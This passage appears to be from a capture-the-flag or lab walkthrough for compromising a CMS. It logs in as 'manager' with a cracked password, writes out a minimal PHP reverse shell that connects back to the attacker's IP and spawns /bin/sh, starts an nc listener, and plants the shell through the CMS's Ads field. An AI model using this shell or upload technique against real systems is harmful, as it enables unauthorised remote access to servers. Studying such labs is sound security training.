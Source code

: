 Open that page in your browser and enter credentials:

* **Username:** `manager`
* **Password:** (the cracked password)

If login works, you’ll be in the CMS admin dashboard.



## 7) Prepare a PHP reverse shell (get a webshell)

On your attacking machine, copy the provided PHP reverse shell template into your working directory:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ./php-reverse-shell.php ./
```

If you do not have `/usr/share/webshells`, create the file with the classic PHP reverse shell snippet (example minimal):

```php
<?php
// php-reverse-shell.php - minimal reverse shell
set_time_limit (0);
$ip = '<YOUR_IP>';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

**Edit the file to set your IP and port:**

(If you used the stock `php-reverse-shell.php` from webshells package, search for the `$ip = '127.0.0.1';` line and change it to '<YOUR_IP>' and remember the port.)



## 8) Start a listener on your attacking machine

Start netcat (nc) to listen for the reverse shell:

```bash
rlwrap nc -lvnp 4444
```

* `rlwrap` gives readline so the shell is interactive (install `rlwrap` if missing).
* `-l` listen, `-v` verbose, `-n` numeric, `-p 4444` port 4444.

Leave this terminal open and ready to receive the connection.


## 9) Upload the shell via CMS Ads

In the CMS admin panel, find **Ads** (the place where you can add ad content). Create a new Ad entry:

* **Ad name:** Shell
* **Ad code:** paste the full contents of `php-reverse-shell.php` (the PHP code you prepared)

